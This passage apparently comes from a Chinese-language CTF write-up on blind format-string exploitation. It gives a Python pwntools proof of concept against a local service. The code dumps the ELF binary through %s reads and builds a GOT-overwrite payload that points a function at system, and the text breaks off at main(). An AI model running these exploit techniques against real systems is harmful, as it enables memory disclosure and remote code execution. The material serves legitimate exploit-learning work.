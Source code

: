 在刚才 `fuzz` 的过程中发现程序中存在 `0x7f**********` 和 `0x4*****` 的地址。

所以很明显这是一个 `64` 位的程序，并且没有开启 `PIE` 保护。

下面的操作在 `brop` 已经详细讲过了，所以不在赘述了，直接给出 `poc` 。

`poc` :

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *
import re


def leak_elf():
    file_ptr = open("binary", "w+")
    file_content = ""
    exp_file = remote("127.0.0.1", 10000)
    addr = 0x400000
    for counts in range(0x1000):
        payload = "%7$s." + "aaa" + p64(addr)
        if "\x0a" in payload:
            file_value = "\xff"
            file_content += file_value
            addr += 1
            continue
        try:
            exp_file.sendline(payload)
            file_value = exp_file.recv().split(".aaa")[0]
            # print(file_value,)
            if file_value == "":
                file_value = "\x00"
            file_content += file_value
            addr += len(file_value)
            print(hex(addr))
        except Exception as e:
            if addr >= 0x401000:
                break
    exp_file.close()
    file_ptr.write(file_content)
    file_ptr.close()


def re_payload(got_ptr, system_addr):
    payload_2_unformat = fmtstr_payload(10, {got_ptr: system_addr}, write_size="short")
    payload_2_addr = payload_2_unformat[:32]
    payload_2_unformat = payload_2_unformat[32:]

    format_len = len(payload_2_unformat)
    payload_offset = 8 - format_len % 8
    if payload_offset:
        position_ptr = 10 + format_len / 8 + 1
    else:
        position_ptr = 10 + format_len / 8
    space_nums = re.findall("%([\d]*)c", payload_2_unformat)

    payload_2_format = ""
    for nums in range(4):
        payload_2_format += "%{space_nums}c%{nums}$hn".format(space_nums=space_nums[nums], nums=position_ptr+nums)
    payload_2 = "a"*32 + payload_2_format + "." * payload_offset + payload_2_addr
    return payload_2


def main():
```